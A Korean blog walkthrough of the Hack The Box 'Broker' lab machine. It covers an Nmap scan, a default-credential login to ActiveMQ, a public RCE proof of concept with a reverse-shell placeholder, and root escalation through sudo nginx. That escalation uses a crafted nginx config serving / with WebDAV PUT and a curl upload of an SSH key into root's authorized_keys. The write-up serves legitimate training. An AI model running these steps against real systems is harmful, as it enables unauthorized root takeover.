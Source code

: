 ```yaml
---
title: "Broker"
date: 2025-02-07
update: 2025-02-07
tags:
  - HTB
  - sudo-l
  - 리눅스
---
```

## Broker 요약
![](https://velog.velcdn.com/images/h3llanut3lla/post/68b13905-0b9c-4d3a-aff0-d787acc4723c/image.png)

Broker는 Apache ActiveMQ를 호스팅하는 쉬운 난이도의 리눅스 머신이다. 
'Apache ActiveMQ' 버전을 찾아보면 원격 코드 실행 (Unauthenticated Remote Code Execution)에 취약하다는 것을 알 수 있으며 이를 악용해서 타겟 시스템 초입을 할 수 있다. 이후, 권한상승을 위한 정보를 얻다보면 잘못된 sudo 구성을 찾을 수 있고, `sudo /usr/sbin/nginx` 를 통해 가장 높은 권한인 root 권한을 얻을 수 있다. 이 방식은 'Zimbra' 취약점 디스클로져와 비슷하다.

## 정보 수집
### Nmap 포트 스캔
TCP 스캔내용
```sh
└─$ nmap -sC -sV 10.10.11.243                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 13:33 AEST
Nmap scan report for 10.10.11.243
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
HTTP 포트가 열려 있으니 우선 들어가보자. 

### 80-HTTP
![](https://velog.velcdn.com/images/h3llanut3lla/post/38604c0c-c362-4cd4-a2df-e10dfecc5f58/image.png)
여기에 디폴트 유저네임 `admin` 비밀번호 `admin` 으로 로그인하면 아래와 같이 정확한 버전정보를 확인할 수 있다. 
>Version 5.15.15
![](https://velog.velcdn.com/images/h3llanut3lla/post/74d467cb-1171-416a-a42d-ceaafee12d08/image.png)

## 초입
`ActiveMQ 5.15.15 github` 혹은 `ActiveMQ 5.15.15 exploits` 라고 구글에 검색해보면 여러 엑스플로이트들이 나오는데, 나는 그 중 https://github.com/X1r0z/ActiveMQ-RCE/tree/main 이걸 사용했다. 

`poc.xml` 파일에 리버스쉘을 넣어주면 된다.

```xml
<list>
  <value>여기에 리버스 쉘 입력</value>
</list>
```

수정된 `poc.xml`
![](https://velog.velcdn.com/images/h3llanut3lla/post/491ee409-7cd0-45a2-a996-9f2fac982eea/image.png)

그렇다면 이렇게 타겟에 쉘이 생긴것을 확인할 수 있다 (우측 상단).
![](https://velog.velcdn.com/images/h3llanut3lla/post/7673de1b-d013-4bbd-986d-66d1b431be92/image.png)

## 권한 상승
`sudo` 로 사용 가능한 명령어를 확인하기 위해 `sudo -l` 이라고 쳐보면 `/usr/sbin/nginx` 가 권한 상승 없이 쓸 수 있는것을 확인할 수 있다.  
![](https://velog.velcdn.com/images/h3llanut3lla/post/2f6ed5c9-2163-4c51-bfe9-a3f6e1f88b19/image.png)

`nginx` 헬프 페이지를 보면 친절하게도 아래와 같이 버전정보를 확인할 수 있다. 
![](https://velog.velcdn.com/images/h3llanut3lla/post/d40d38a9-a20a-4327-9f97-8ec02b03b47f/image.png)

[Zimbra 디스클로져](https://github.com/advisories/GHSA-w7p3-hmmp-qmx6)와 같은 방식으로 진행해보자. 

`nginx` 구성파일중 `user-www-data` 라고 작성되어 있는 부분을 `root` 로 바꿔주면 된다. 
![](https://velog.velcdn.com/images/h3llanut3lla/post/0c303d62-bd24-4a0e-8f86-00da12b5c4c8/image.png)

아래와 같은 `pwn.conf` 라는 새 구성파일을 만들어준다.
```sh
user root; # 워커 프로세스가 root 권한으로 실행
worker_processes 4;
pid /tmp/nginx.pid;
events {
		worker_connections 768;
}
http {
	server {
		listen 1337;
		root /;
		autoindex on;
		dav_methods PUT;
	}
}
```

![](https://velog.velcdn.com/images/h3llanut3lla/post/b7b868a1-578b-4de5-bfd0-b0cdab7c91dd/image.png)
새로 만든 `pwn.conf` 가 잘 실행되었는지 확인하기 위해, 열린 포트를 보면 아래와 같이 포트 1337이 열린것을 볼 수 있다. 
![](https://velog.velcdn.com/images/h3llanut3lla/post/906e1180-82e5-4365-b8c5-7a05a351eb05/image.png)

그럼 이제 `/root/.ssh/authorized_keys` 에 대한 공개 SSH키를 만들어보자. 
![](https://velog.velcdn.com/images/h3llanut3lla/post/7700d7cb-b3f7-4e86-a8b8-5df4cc597c84/image.png)

칼리에서 
```sh
# SSH키 생성
ssh-keygen -f broker

# 생성된 키를 타겟에 전달
curl 10.10.11.243:1337/root/.ssh/authorized_keys --upload-file broker.pub
```

그리고 키를 이용해 SSH로 접속하면
```sh
ssh -i broker root@10.10.11.243
```
![](https://velog.velcdn.com/images/h3llanut3lla/post/f5039481-5ee3-4380-9be3-b14aed525772/image.png)

`root`로 권한이 상승된것을 확인할 수 있다. 